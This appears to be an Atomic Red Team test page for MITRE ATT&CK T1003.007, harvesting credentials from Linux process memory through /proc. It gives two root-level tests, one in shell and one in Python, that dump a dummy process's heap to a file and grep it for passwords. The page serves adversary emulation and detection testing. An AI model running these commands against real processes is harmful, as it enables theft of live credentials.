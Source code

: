 # T1003.007 - Proc Filesystem
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/007)
<blockquote>Adversaries may gather credentials from information stored in the Proc filesystem or <code>/proc</code>. The Proc filesystem on Linux contains a great deal of information regarding the state of the running operating system. Processes running with root privileges can use this facility to scrape live memory of other running programs. If any of these programs store passwords in clear text or password hashes in memory, these values can then be harvested for either usage or brute force attacks, respectively.

This functionality has been implemented in the MimiPenguin(Citation: MimiPenguin GitHub May 2017), an open source tool inspired by Mimikatz. The tool dumps process memory, then harvests passwords and hashes by looking for text strings and regex patterns for how given applications such as Gnome Keyring, sshd, and Apache use memory to store such authentication artifacts.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Dump individual process memory with sh (Local)](#atomic-test-1---dump-individual-process-memory-with-sh-local)

- [Atomic Test #2 - Dump individual process memory with Python (Local)](#atomic-test-2---dump-individual-process-memory-with-python-local)


<br/>

## Atomic Test #1 - Dump individual process memory with sh (Local)
Using `/proc/$PID/mem`, where $PID is the target process ID, use shell utilities to
copy process memory to an external file so it can be searched or exfiltrated later.

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | Path | /tmp/T1003.007.bin|
| script_path | Path to script generating the target process | Path | /tmp/T1003.007.sh|
| pid_term | Unique string to use to identify target process | String | T1003.007|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sh #{script_path}
PID=$(pgrep -n -f "#{pid_term}")
HEAP_MEM=$(grep -E "^[0-9a-f-]* r" /proc/"$PID"/maps | grep heap | cut -d' ' -f 1)
MEM_START=$(echo $((0x$(echo "$HEAP_MEM" | cut -d"-" -f1))))
MEM_STOP=$(echo $((0x$(echo "$HEAP_MEM" | cut -d"-" -f2))))
MEM_SIZE=$(echo $((0x$MEM_STOP-0x$MEM_START)))
dd if=/proc/"${PID}"/mem of="#{output_file}" ibs=1 skip="$MEM_START" count="$MEM_SIZE"
grep -i "PASS" "#{output_file}"
```

#### Cleanup Commands:
```sh
rm -f "#{output_file}"
```



#### Dependencies:  Run with `sh`!
##### Description: Script to launch target process must exist
##### Check Prereq Commands:
```sh
test -f #{script_path}
grep "#{pid_term}" #{script_path} 
```
##### Get Prereq Commands:
```sh
echo '#!/bin/sh' > #{script_path}
echo "sh -c 'echo \"The password is #{pid_term}\" && sleep 30' &" >> #{script_path}
```




<br/>
<br/>

## Atomic Test #2 - Dump individual process memory with Python (Local)
Using `/proc/$PID/mem`, where $PID is the target process ID, use a Python script to
copy a process's heap memory to an external file so it can be searched or exfiltrated later.

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | Path | /tmp/T1003.007.bin|
| script_path | Path to script generating the target process | Path | /tmp/T1003.007.sh|
| python_script | Path to script generating the target process | Path | PathToAtomicsFolder/T1003.007/src/dump_heap.py|
| pid_term | Unique string to use to identify target process | String | T1003.007|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sh #{script_path}
PID=$(pgrep -n -f "#{pid_term}")
PYTHON=$(which python || which python3 || which python2)
$PYTHON #{python_script} $PID #{output_file}
grep -i "PASS" "#{output_file}"
```

#### Cleanup Commands:
```sh
rm -f "#{output_file}"
```



#### Dependencies:  Run with `sh`!
##### Description: Script to launch target process must exist
##### Check Prereq Commands:
```sh
test -f #{script_path}
grep "#{pid_term}" #{script_path} 
```
##### Get Prereq Commands:
```sh
echo '#!/bin/sh' > #{script_path}
echo "sh -c 'echo \"The password is #{pid_term}\" && sleep 30' &" >> #{script_path}
```
##### Description: Requires Python
##### Check Prereq Commands:
```sh
(which python || which python3 || which python2) 
```
##### Get Prereq Commands:
```sh
echo "Python 2.7+ or 3.4+ must be installed"
```




<br/>
